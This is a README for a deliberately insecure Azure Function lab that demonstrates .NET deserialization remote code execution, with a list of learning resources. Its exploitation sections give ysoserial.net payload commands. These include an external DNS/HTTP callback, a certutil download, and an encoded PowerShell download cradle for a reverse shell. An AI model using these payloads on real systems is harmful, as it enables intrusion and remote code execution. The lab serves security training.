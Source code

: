 ## DeserialKiller

Azure Function lab for .NET Deserialization RCE demonstration.

Adapted from this blog post which featured an MVC app, made it a one a click deploy

https://sekurity.dev/insecure-deserialization-using-binaryformatter-resulting-in-rce/

Included is "TriggerWarning.cs", it will log the last 10 requests in memory and display them back as a queue. Useful for debugging or catching a callback like Burp Collaborator I guess. Just create another function and paste in that code.

WARNING: DO NOT DEPLOY THIS TO AZURE. Should never run outside of a controlled environment. This is literally a an insecure azure application. Functions can (and in this case should) be run locally to develop them. Just run them both and craft your payloads. DO NOT DEPLOY THIS TO AZURE.

So you're going to deploy it to Azure. Kinda wanted to see if you give it access to a keyvault, can you figure out how to READ the keyvault from inside?  Deploy an AzureVM, isolate it to just your IP. Then go to the network settings of the deployed function app and isolate it with Network Security Groups to just that IP. Then see what you can do as the application.  

## Exploitation
Payload

```powershell
$p = @{name=hostname};Invoke-WebRequest -Uri http://localhost:7298/api/triggerwarning -Method POST -Body ($p | ConvertTo-Json) -ContentType "application/json" -UseBasicParsing

	
.\ysoserial.exe -f BinaryFormatter -g DataSet -c "Invoke-WebRequest http://localhost:7298/api/triggerwarning -Method POST -Body "we in here" -ContentType 'application/json' -UseBasicParsing" -t
```



Plan to add other routes for other Deserialization labs, but for now, here are the bklog posts I'm going to be reading 

## .Net Deserialization Resources
https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a
https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization__net.html
https://book.hacktricks.xyz/pentesting-web/deserialization
https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-knowing-the-secret

## .Net Deserialziation White-Paper - JSON.net
https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf

## Initial Access payload generation and WDAC Bypass using .net Deserialization
https://labs.nettitude.com/blog/introducing-aladdin/
https://github.com/nettitude/Aladdin

## Ysoserial.Net Examples
https://github.com/pwntester/ysoserial.net

```powershell
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```

## Web Lab - Portswigger Deserializtion
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization